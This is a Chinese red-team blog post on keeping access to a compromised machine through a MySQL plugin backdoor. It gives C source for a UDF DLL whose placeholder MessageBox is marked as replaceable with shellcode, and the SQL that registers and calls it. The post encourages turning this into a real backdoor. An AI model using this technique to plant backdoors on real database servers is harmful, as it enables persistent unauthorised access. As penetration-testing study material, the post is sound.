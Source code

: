 ```yaml
---
layout:     post
title:    权限维持-mysql插件
subtitle:   构建一个mysql后门
date:       2019-12-20
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 后门
    - 红队
    - 内网渗透
---
```

# 权限维持-mysql插件
## 简介
算是个插件后门的思路，mysql演示起来比较方便，不过测试的时候也碰到了好些问题。  

## 测试
首先去mysql的官网下一份mysql的库文件。  
然后创建一个dll项目，在属性中添加加包含目录，路径为下载mysql库文件的include目录。  
![191220_1](/img/191220_attach.png)  
把lib目录下的两个库文件放到dll项目中。  
![191220_2](/img/191220_mysqllib.png)  
然后来一段测试代码，编译出dll。  
```
#include "stdafx.h"
#include "Windows.h"
#include <mysql.h>
#pragma comment(lib,"libmysql") //引用lib文件

extern "C" {
    __declspec(dllexport) void mysql_test() {
        MessageBox(NULL, L"test", L"test", 0); //弹框测试下这里可以替换成别的，执行shellcode
    }
    __declspec(dllexport) my_bool mysql_test_init() { 
        return 0;
    }
}
```  
注意这里编译的时候要注意x86还是x64，最好都编译了，实际加载的时候都试下。  
![191220_3](/img/191220_lib.png)  
放到对应的mysql/lib/plugin目录下,没有的话自己建一个。  
然后在mysql命令行中创建方法（方法名字根据之前的dll文件里的命名来）。  
```
CREATE FUNCTION mysql_test RETURNS INTEGER SONAME "dc.dll";
select mysql_test();
```
执行就可以看到弹框执行。  
![191220_4](/img/191220_messagebox.png)  
可以顺着思路拓展，当成一个真正可以利用的后门。   

## 注意
我这里测试的是win7 x64，是可以成功执行的。在2003中，发现始终无法创建方法，无论是32位的dll还是64位的dll，没有找到原因。  

